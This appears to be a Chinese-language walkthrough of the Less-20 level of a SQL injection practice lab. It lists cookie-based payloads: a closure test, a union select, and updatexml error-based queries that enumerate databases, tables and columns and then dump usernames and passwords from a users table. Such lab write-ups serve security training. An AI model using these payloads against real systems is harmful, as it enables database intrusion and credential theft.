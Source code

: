 ```yaml
---
title: Less - 20
date: 2023-03-15T13:20:13Z
lastmod: 2023-03-15T13:41:53Z
---
```


# Less - 20

---

# 通关教程

---

## 1、判断闭合

---

返回了输入的name和password，并提示使用cookie

​![image](assets/image-20230315132609-n9sm5u3.png)​

修改cookie的值如下

```html
uname=admin'#
```

​![image](assets/image-20230315132921-ezaql4j.png)​

回显位置如下

​![image](assets/image-20230315133352-ma0tgj4.png)​

---

## 2、查看当前数据库

---

```html
uname=' union select database(),2,3#
```

​![image](assets/image-20230315133446-0rit721.png)​

---

## 3、查看数据库名

---

```html
 uname=' and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata limit 0,1),0x7e),1)#
```

​![image](assets/image-20230315133539-4t1pmqb.png)​

---

## 4、查看数据表名

---

```html
uname=' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)#
```

​![image](assets/image-20230315133813-vyeqqrb.png)​

---

## 5、查看字段名

---

```html
uname=' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1),0x7e),1)#
```

​![image](assets/image-20230315133956-yq6ovbo.png)​

---

## 6、查看字段值

---

```html
 uname=' and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users  limit 0,1),0x7e),1)#
```

​![image](assets/image-20230315134142-v4jjlql.png)​

‍
